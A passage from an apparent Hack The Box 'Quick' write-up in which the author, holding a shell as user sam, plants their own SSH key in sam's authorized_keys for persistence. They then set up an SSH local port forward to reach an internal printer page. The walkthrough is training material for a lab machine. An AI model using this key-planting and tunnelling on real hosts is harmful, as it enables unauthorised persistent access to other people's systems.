 ```html
```

This page looks exactly the same as the virtual hosted page `http://portal.quick.htb`. However, since I needed to specify the virtual host's domain name to connect, this was expected. If I could edit the local hosts file, I would be fine, but since I couldn't, I would have to connect from my machine.

I decided to try to create an authorized\_keys folder for `sam` and see if I could use ssh port redirection to allow me to use my browser to navigate the printer page.

```text
sam@quick:~/.ssh$echo 'ssh-rsa AAAA<my_public_key> zweilos@kali' >> authorized_keys
```

SSH worked, after that it I set up my port redirection tunnel. The `-L` option allows you to forward a local port to a port on the remote machine with the syntax: `-L local_socket:host:hostport`.

```text
zweilos@kali:~/htb/quick$ ssh -L 40905:10.10.10.186:80 sam@quick.htb
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Aug 16 18:31:26 UTC 2020

  System load:  0.06               Users logged in:                1
  Usage of /:   30.1% of 19.56GB   IP address for ens33:           10.10.10.186
  Memory usage: 23%                IP address for br-9ef1bb2e82cd: 172.18.0.1
  Swap usage:   0%                 IP address for docker0:         172.17.0.1
  Processes:    130


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

54 packages can be updated.
28 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Aug 16 18:30:27 2020 from 10.10.15.57
sam@quick:~$
```

I logged in successfully, now to test my port forwarding in the browser. ![](https://github.com/zweilosec/htb-writeups/tree/de76ed6e78e992dd3769f7fa850ef9167e04b2c0/linux-machines/hard/connection-reset.png) Unfortunately it didn't work, though I quickly spotted the problem. I was trying to connect to 10.10.10.186 on port 80, just from the `quick.htb` machine, which I already knew was blocked. I needed to access the site the same way I had with curl earlier, with `127.0.0.1:80`.
